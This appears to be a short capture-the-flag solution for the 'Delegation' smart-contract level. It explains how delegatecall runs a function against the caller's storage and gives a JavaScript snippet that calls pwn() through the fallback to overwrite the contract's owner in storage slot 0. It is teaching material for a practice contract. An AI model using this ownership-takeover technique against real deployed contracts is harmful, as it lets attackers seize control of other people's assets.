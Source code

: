 # Delegation

delegatecall() allows contract to execute a function() in an other contract but use the caller contract's states(storage layout must be the same)

1. send transaction which will trigger fallback()
2. fallback() of Delegation will call pwn() in Delegate
3. pwn() will set the owner of Delegation (storage slot 0)

```javascript
const pwn = web3.utils.keccak256("pwn()")
await contract.sendTransaction({ data: pwn })
```

---

-   https://solidity-by-example.org/hacks/delegatecall/
